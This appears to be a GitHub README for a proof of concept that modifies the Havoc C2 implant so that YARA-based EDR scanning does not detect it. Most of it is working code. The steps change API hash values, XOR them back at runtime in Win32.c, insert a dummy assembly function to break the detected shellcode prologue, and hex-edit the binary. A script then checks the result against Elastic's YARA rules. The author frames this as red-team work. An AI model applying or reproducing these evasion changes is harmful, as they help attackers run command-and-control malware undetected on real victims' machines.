 # Havoc-C2-Modification-YARA-Free

# POC of modifying YARA signautre on Havoc C2. 
This was during one of red team I had to modify open-source C2 to make YARA free, therefore it would be safer to execute in memory by a loader and evade 
common YARA scanning by EDRs. I was able to achieve 0% YARA detections. The main steps are the following:

1.Modify [hash_func.py](https://github.com/JimKw1kX/Havoc-C2-Modification-YARA-Free/blob/main/Havoc/payloads/Demon/scripts/hash_func.py) to generate different hash values that are flagged by YARA rules

```js
import sys

def hash_string( string ):
    try:
        hash = 5381

        for x in string.upper():
            hash = (( hash << 5 ) + hash ) + ord(x)


        # hash ^= 0xA5A5A5A5

        return hash & 0xFFFFFFFF
    except:
        pass

def hash_coffapi( string ):
    try:
        hash = 5381

        for x in string:
            hash = (( hash << 5 ) + hash ) + ord(x)

        
        # hash ^= 0xA5A5A5A5

        return hash & 0xFFFFFFFF
    except:
        pass

if __name__ in '__main__':
    try:
        print('#define H_FUNC_%s 0x%x' % ( sys.argv[ 1 ].upper(), hash_string( sys.argv[ 1 ] ) ));
        print('#define H_COFFAPI_%s 0x%x' % ( sys.argv[ 1 ].upper(), hash_coffapi( sys.argv[ 1 ] ) ));
    except IndexError:
        print('usage: %s [string]' % sys.argv[0]);
```

2.Replace them in [Define.h](https://github.com/JimKw1kX/Havoc-C2-Modification-YARA-Free/blob/main/Havoc/payloads/Demon/include/common/Defines.h)

```js
define XOR_KEY 0xA5A5A5A5


#define H_FUNC_LDRLOADDLL 0x3be0cfe6
#define H_FUNC_LDRGETPROCEDUREADDRESS 0x5942ce13
#define H_FUNC_NTADDBOOTENTRY 0x295962d3
#define H_FUNC_NTALLOCATEVIRTUALMEMORY 0x52261d49
#define H_FUNC_NTFREEVIRTUALMEMORY 0x8da763ac
#define H_FUNC_NTUNMAPVIEWOFSECTION 0xcf01b768
#define H_FUNC_NTWRITEVIRTUALMEMORY 0x66b2a437
#define H_FUNC_NTSETINFORMATIONVIRTUALMEMORY 0x31cf679c
#define H_FUNC_NTQUERYVIRTUALMEMORY 0xb5654df8
#define H_FUNC_NTOPENPROCESSTOKEN 0x90a86f3c
#define H_FUNC_NTOPENTHREADTOKEN 0x2596e277
```
3. Add the XOR logic in [Win32.c](https://github.com/JimKw1kX/Havoc-C2-Modification-YARA-Free/blob/main/Havoc/payloads/Demon/src/core/Win32.c), the idea is to dynamicly XORing back to the orignal values of the API hash functions during run time, so YARA will not flag the hardcoded values in demon.bin defined in [Define.h](https://github.com/JimKw1kX/Havoc-C2-Modification-YARA-Free/blob/main/Havoc/payloads/Demon/include/common/Defines.h)

```js
#define XOR_KEY 0xA5A5A5A5 // the key we used to xor the hash values


PVOID LdrFunctionAddr(
    IN PVOID Module,
    IN DWORD Hash
) {
    PIMAGE_NT_HEADERS       NtHeader         = { 0 };
    PIMAGE_EXPORT_DIRECTORY ExpDirectory     = { 0 };
    SIZE_T                  ExpDirectorySize = { 0 };
    PDWORD                  AddrOfFunctions  = { 0 };
    PDWORD                  AddrOfNames      = { 0 };
    PWORD                   AddrOfOrdinals   = { 0 };
    PVOID                   FunctionAddr     = { 0 };
    PCHAR                   FunctionName     = { 0 };
    ANSI_STRING             AnsiString       = { 0 };

    if ( ! Module || ! Hash )
        return NULL;

    NtHeader         = C_PTR( Module + ( ( PIMAGE_DOS_HEADER ) Module )->e_lfanew );
    ExpDirectory     = C_PTR( Module + NtHeader->OptionalHeader.DataDirectory[ IMAGE_DIRECTORY_ENTRY_EXPORT ].VirtualAddress );
    ExpDirectorySize = U_PTR( Module + NtHeader->OptionalHeader.DataDirectory[ IMAGE_DIRECTORY_ENTRY_EXPORT ].Size );

    AddrOfNames      = C_PTR( Module + ExpDirectory->AddressOfNames );
    AddrOfFunctions  = C_PTR( Module + ExpDirectory->AddressOfFunctions );
    AddrOfOrdinals   = C_PTR( Module + ExpDirectory->AddressOfNameOrdinals );

    if (IsPredefinedHash(Hash)) {
        Hash ^= XOR_KEY; // use the same key to xor back whenever the demon calls hashes APIs
    }

```

4. Modify the [Asm.s](https://github.com/JimKw1kX/Havoc-C2-Modification-YARA-Free/blob/main/Havoc/payloads/Shellcode/Source/Asm/x64/Asm.s) Assemby and add a dummy functions to break the ROP gadget logic to evade YARA detection 

`````js
; Define the dummy function
DummyFunction:
        ; Save registers (if needed)
        push    rax
        push    rbx
        push    rcx
        push    rdx

        ; Dummy operations
        nop     ; No operation
        nop     ; No operation
        nop     ; No operation

        ; Restore registers
        pop     rdx
        pop     rcx
        pop     rbx
        pop     rax

        ; Return from the dummy function
    ret

section .text$A
	Start:
        call    DummyFunction     // break the following calling logic    
        push    rsi               // <-----detection starts here
        nop                       
        mov		rsi, rsp
``````

5. Last step is to  manually remove using the [Hxd tool](https://mh-nexus.de/en/hxd/) to  change one hex value

    Step 4 and 5 refer the that [blog](https://karma-x.io/blog/post/18/) and the demo below

    [Click here to check out demo for manually modifying the hex value](https://drive.google.com/file/d/13tZNTVFa5PXiA4tVN17b8KBguBuCT-M-/view)


<video width="600" controls>
  <source src="https://drive.google.com/file/d/13tZNTVFa5PXiA4tVN17b8KBguBuCT-M-/view" type="video/mp4">
  Your browser does not support the video tag.
</video>



6. The whole modified havoc is here, you can download and compile your own to make modificatio and YARA check using a simple [python script](https://github.com/JimKw1kX/Havoc-C2-Modification-YARA-Free/blob/main/Yara%20Scan%20Checker/yara_check.py) like the following with updated [yara rules](https://github.com/elastic/protections-artifacts), you can add [pe-sieve](https://github.com/hasherezade/pe-sieve) and [moneta](https://github.com/forrest-orr/moneta) in the script to check addtioanl memory region for the shellcode and modify it accordingly.


```js
import os
import sys
import subprocess


directory = ('C:\\Users\\User\\Downloads\\Mem_Scan\\protections-artifacts-main\\protections-artifacts-main\\yara\\rules')
target = 'C:\\Users\\User\\Desktop\\Payloads\\Products\\double_module_stomp\\PayloadLoader\\x64\\Release\\DllLoader.dll'

for fileanme in os.listdir(directory):
    filepath = os.path.join(directory, fileanme)

    if os.path.isfile(filepath):
        cmd = ['yara64.exe','-s', filepath, target]
        result = subprocess.run(cmd, capture_output=True, text=True)
        if result.stdout:
            with open('yara_loader_result.txt', 'a') as f:
                outout = f'Detected===>!!!\\n{filepath} ====>\n {result.stdout}'
                print(outout)

```

# DEMO 

You can also check out the demo for the final version of the cleaned shellcode YARA scan [here](https://drive.google.com/file/d/1vkOEhy7eR_kjewiJaoxkTosBVLG5HxkB/view?usp=sharing)



